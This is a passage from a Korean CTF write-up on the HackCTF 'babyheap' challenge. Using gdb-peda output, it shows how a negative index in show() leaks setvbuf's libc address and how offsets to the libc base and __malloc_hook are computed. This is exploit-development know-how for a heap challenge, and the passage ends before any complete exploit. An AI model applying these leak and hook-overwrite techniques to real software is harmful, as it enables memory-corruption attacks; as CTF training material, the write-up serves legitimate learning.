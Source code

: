 
libc leak을 위해 `setvbuf()`의 GOT가 저장되어 있는 주소와 `ptr` 변수의 주소의 차이를 구하자. `ptr`은 `0x602060`에 위치한 것을 앞에서 확인했다.

```bash
gdb-peda$ got

/home/chykor12/HackCTF/babyheap:     file format elf64-x86-64

DYNAMIC RELOCATION RECORDS
OFFSET           TYPE              VALUE 
...
0000000000601fe0 R_X86_64_GLOB_DAT  setvbuf@GLIBC_2.2.5
...
gdb-peda$ find 0x601fe0
Searching for '0x601fe0' in: None ranges
Found 1 results, display max 1 items:
babyheap : 0x400650 --> 0x601fe0 --> 0x7ffff7a7ce70 (<__GI__IO_setvbuf>:	push   rbp)
gdb-peda$ p/u (0x602060-0x400650)/8
$3 = 262978
```

`show()` 함수에서 index에 `-262978`을 입력하면 `setvbuf()`의 주소를 얻을 수 있고, 오프셋을 계산해서 libc base, malloc hook의 주소를 구할 수 있을 것이다.

```bash
gdb-peda$ vmmap
Start              End                Perm	Name
0x00400000         0x00401000         r-xp	/home/chykor12/HackCTF/babyheap
0x00601000         0x00602000         r--p	/home/chykor12/HackCTF/babyheap
0x00602000         0x00603000         rw-p	/home/chykor12/HackCTF/babyheap
0x00007ffff7a0d000 0x00007ffff7bcd000 r-xp	/lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7bcd000 0x00007ffff7dcd000 ---p	/lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7dcd000 0x00007ffff7dd1000 r--p	/lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7dd1000 0x00007ffff7dd3000 rw-p	/lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7dd3000 0x00007ffff7dd7000 rw-p	mapped
0x00007ffff7dd7000 0x00007ffff7dfd000 r-xp	/lib/x86_64-linux-gnu/ld-2.23.so
0x00007ffff7fde000 0x00007ffff7fe1000 rw-p	mapped
0x00007ffff7ff7000 0x00007ffff7ffa000 r--p	[vvar]
0x00007ffff7ffa000 0x00007ffff7ffc000 r-xp	[vdso]
0x00007ffff7ffc000 0x00007ffff7ffd000 r--p	/lib/x86_64-linux-gnu/ld-2.23.so
0x00007ffff7ffd000 0x00007ffff7ffe000 rw-p	/lib/x86_64-linux-gnu/ld-2.23.so
0x00007ffff7ffe000 0x00007ffff7fff000 rw-p	mapped
0x00007ffffffde000 0x00007ffffffff000 rw-p	[stack]
0xffffffffff600000 0xffffffffff601000 r-xp	[vsyscall]
gdb-peda$ print setvbuf
$5 = {<text variable, no debug info>} 0x7ffff7a7ce70 <__GI__IO_setvbuf>
gdb-peda$ p/x 0x7ffff7a7ce70-0x7ffff7a0d000
$6 = 0x6fe70
gdb-peda$ print &__malloc_hook
$7 = (void *(**)(size_t, const void *)) 0x7ffff7dd1b10 <__malloc_hook>
gdb-peda$ p/x 0x7ffff7dd1b10-0x7ffff7a0d000
$8 = 0x3c4b10
```
